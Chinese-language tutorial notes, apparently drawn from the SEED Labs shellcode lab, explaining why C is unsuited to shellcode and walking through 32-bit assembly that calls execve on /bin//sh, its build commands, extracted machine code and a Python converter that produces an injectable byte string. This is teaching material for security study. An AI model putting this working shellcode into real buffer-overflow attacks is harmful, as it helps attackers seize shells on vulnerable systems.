

# 构造shellcode

如何构造恶意代码进行攻击？最方便的是注入运行shell程序的代码。
为shell程序编写的汇编代码称为shellcode，shellcode只适合汇编来写

## 缓冲区溢出c语言不适合写恶意代码

```c
#include <stddef.h>

void main()
{
    char *name[2];
    name[0] = "/bin/sh";
    name[1] = NULL;
    execve(name[0], name, NULL);
}
```
1、缓冲区溢出攻击中，恶意代码不是由操作系统加载的，而是由内存复制载入的。而c程序运行需要启动操作系统加载器。   
2、由于要复制，无法解决代码中的0问题  

## 如何写shellcode

这部分来自[Seed Labs shellcode development Lab](https://seedsecuritylabs.org/Labs_20.04/Files/Shellcode/Shellcode.pdf)  
shellcode和处理器有关系，一般用intel处理器，有两种：  
x86是32位CPU的  
x64是64位CPU的  

!!! Note

    64位的处理器也能运行32位的程序

首先安装汇编语言编译程序nasm
```bash
sudo apt install nasm
```

以下是一个32位汇编mysh.s  
```text
section .text
  global _start
    _start:
      ; Store the argument string on stack
      xor  eax, eax 
      push eax          ; Use 0 to terminate the string
      push "//sh"
      push "/bin"
      mov  ebx, esp     ; Get the string address

      ; Construct the argument array argv[]
      push eax          ; argv[1] = 0
      push ebx          ; argv[0] points "/bin//sh"
      mov  ecx, esp     ; Get the address of argv[]
   
      ; For environment variable 
      xor  edx, edx     ; No env variables 

      ; Invoke execve()
      xor  eax, eax     ; eax = 0x00000000
      mov   al, 0x0b    ; eax = 0x0000000b
      int 0x80
```

程序执行前后，当前shell进程id不一样，说明新起了一个shell进程  

!!! nasm指令

    nasm -f elf32 mysh.s -o mysh.o编译32位.o文件。-f elf32编译ELF二进制格式 
    ld -m elf__i386 mysh.o -o mysh链接成32位可执行文件

攻击的时候，我们只需要的是shellcode的机器码，只有机器码才称为shellcode  
可以从目标文件或者可执行文件中得到机器码，对于汇编语言，有两种方式得到机器码：1、AT&T语法模式。2、Intel语法模式

得到机器码：


也可以用xxd打印偏于copy的机器码：


机器码在python程序里运行需要转换成python数组的格式，转换程序如下：
```python
#!/usr/bin/env python3

# Run "xxd -p -c 20 rev_sh.o",
# copy and paste the machine code to the following:
ori_sh ="""
31c050682f2f7368
682f62696e89e3505389e131d231c0b00bcd80
"""

sh = ori_sh.replace("\n", "")

length  = int(len(sh)/2)
print("Length of the shellcode: {}".format(length))
s = 'shellcode= (\n' + '   "'
for i in range(length):
    s += "\\x" + sh[2*i] + sh[2*i+1]
    if i > 0 and i % 16 == 15: 
       s += '"\n' + '   "'
s += '"\n' + ").encode('latin-1')"
print(s)
```

就得到了最终的shellcode

## 构造shellcode的核心方法

结合上面mysh.s汇编代码分析  
shellcode最核心的是使用execve()系统调用来执行/bin/sh，这个系统调用，需要设置4个寄存器：  
1、eax寄存器，必须保存11，11是execve的系统调用号  
2、ebx寄存器，保存命令字符串的地址，如/bin/sh  
3、ecx寄存器，保存参数数组地址  
4、edx寄存器，保存想传给新程序的环境变量地址  
int 0x80，int为中断，运行中断，执行该系统调用